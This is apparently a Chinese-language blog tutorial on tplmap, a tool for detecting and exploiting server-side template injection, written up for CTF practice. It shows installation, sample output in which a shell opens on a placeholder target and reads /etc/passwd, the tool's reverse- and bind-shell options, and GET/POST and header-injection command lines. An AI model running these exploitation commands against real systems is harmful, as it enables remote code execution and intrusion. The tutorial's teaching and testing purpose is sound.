 项目地址：https://github.com/epinna/tplmap

**还可以作为burpsuite的插件使用**

# **使用方式**

# kali 下安装tplmap

tpl是用python2编写的,报错一般是使用py3

### 2.1 使用git克隆使用tplmap

```shell
git clone https://github.com/epinna/tplmap

cd tplmap

sudo pip2 install -r requirements.txt
```

### 2.2 操作实例

```plain
$ ./tplmap.py -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
...
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

[+] Rerun tplmap providing one of the following options:

    --os-shell                Run shell on the target
    --os-cmd                  Execute shell commands
    --bind-shell PORT         Connect to a shell bind to a target port
    --reverse-shell HOST PORT Send a shell back to the attacker's port
    --upload LOCAL REMOTE     Upload files to the server
    --download REMOTE LOCAL   Download remote files
$ ./tplmap.py --os-shell -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Run commands on the operating system.

linux $ whoami
www
linux $ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
```

# windows下使用tmlmap

一样安装使用即可，不过我在windows11 python2下使用报错：未解决

```python
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if URL parameter 'url' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Error: connection aborted, bad status line.
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Error: connection aborted, bad status line.
[!][tplmap] Exiting: 'NoneType' object has no attribute 'partition'
```

# 支持的模板引擎

Tplmap supports over 15 template engines, unsandboxed template engines and generic *eval()*-like injections.

| Engine                         | Remote Command Execution | Blind | Code evaluation | File read | File write |
| ------------------------------ | ------------------------ | ----- | --------------- | --------- | ---------- |
| Mako                           | ✓                        | ✓     | Python          | ✓         | ✓          |
| Jinja2                         | ✓                        | ✓     | Python          | ✓         | ✓          |
| Python (code eval)             | ✓                        | ✓     | Python          | ✓         | ✓          |
| Tornado                        | ✓                        | ✓     | Python          | ✓         | ✓          |
| Nunjucks                       | ✓                        | ✓     | JavaScript      | ✓         | ✓          |
| Pug                            | ✓                        | ✓     | JavaScript      | ✓         | ✓          |
| doT                            | ✓                        | ✓     | JavaScript      | ✓         | ✓          |
| Marko                          | ✓                        | ✓     | JavaScript      | ✓         | ✓          |
| JavaScript (code eval)         | ✓                        | ✓     | JavaScript      | ✓         | ✓          |
| Dust (<= dustjs-helpers@1.5.0) | ✓                        | ✓     | JavaScript      | ✓         | ✓          |
| EJS                            | ✓                        | ✓     | JavaScript      | ✓         | ✓          |
| Ruby (code eval)               | ✓                        | ✓     | Ruby            | ✓         | ✓          |
| Slim                           | ✓                        | ✓     | Ruby            | ✓         | ✓          |
| ERB                            | ✓                        | ✓     | Ruby            | ✓         | ✓          |
| Smarty (unsecured)             | ✓                        | ✓     | PHP             | ✓         | ✓          |
| PHP (code eval)                | ✓                        | ✓     | PHP             | ✓         | ✓          |
| Twig (<=1.19)                  | ✓                        | ✓     | PHP             | ✓         | ✓          |
| Freemarker                     | ✓                        | ✓     | Java            | ✓         | ✓          |
| Velocity                       | ✓                        | ✓     | Java            | ✓         | ✓          |
| Twig (>1.19)                   | ×                        | ×     | ×               | ×         | ×          |
| Smarty (secured)               | ×                        | ×     | ×               | ×         | ×          |
| Dust (> dustjs-helpers@1.5.0)  | ×                        | ×     | ×               | ×         | ×          |

# 参数说明与使用技巧

```bash
Usage: python tplmap.py [options]

选项:
  -h, --help          显示帮助并退出

目标:
  -u URL, --url=URL   目标 URL
  -X REQUEST, --re..  强制使用给定的 HTTP 方法 (e.g. PUT)

请求:
  -d DATA, --data=..  通过 POST 发送的数据字符串 它必须作为查询字符串: param1=value1&param2=value2
  -H HEADERS, --he..  附加消息头 (e.g. 'Header1: Value1') 多次使用以添加新的消息头
  -c COOKIES, --co..  Cookies (e.g. 'Field1=Value1') 多次使用以添加新的 Cookie
  -A USER_AGENT, -..  HTTP User-Agent 消息头的值
  --proxy=PROXY       使用代理连接到目标 URL

检测:
  --level=LEVEL       要执行的代码上下文转义级别 (1-5, Default: 1)
  -e ENGINE, --eng..  强制将后端模板引擎设置为此值
  -t TECHNIQUE, --..  技术 R:渲染 T:基于时间的盲注 Default: RT

操作系统访问:
  --os-cmd=OS_CMD     执行操作系统命令
  --os-shell          提示交互式操作系统 Shell
  --upload=UPLOAD     上传本地文件到远程主机
  --force-overwrite   上传时强制覆盖文件
  --download=DOWNL..  下载远程文件到本地主机
  --bind-shell=BIN..  在目标的 TCP 端口上生成系统 Shell 并连接到它
  --reverse-shell=..  运行系统 Shell 并反向连接到本地主机端口

模板检查:
  --tpl-shell         在模板引擎上提示交互式 Shell
  --tpl-code=TPL_C..  在模板引擎中注入代码

常规:
  --force-level=FO..  强制将测试级别设置为此值
  --injection-tag=..  使用字符串作为注入标签 (default '*')
```

## 1.GET型注入

直接指定url即可，eg:

```powershell
python2 tplmap.py -u "http://xx.xx.xx.xx:xx/flag.php?flag=1"
```

如果没有?flag这种参数，但诸如点又确实在url上，可以选择给他补充特征位置，如

```powershell
python2 tplmap.py -u "http://xx.xx.xx.xx:xx/{{7*7}}
```

## 2.POST型注入

**要点在用\*指定参数位置**，以某CTF题为例，需要添加X-Forwarded-For：anything 来渲染展示ip源，注入点为XFF头，还需要我们添加，于是payload这样写：

```powershell
python2 tplmap.py -u "http://xx.xx.xx.xx:xx/flag.php" -X POST -H X-Forwarded-For: 99*
```

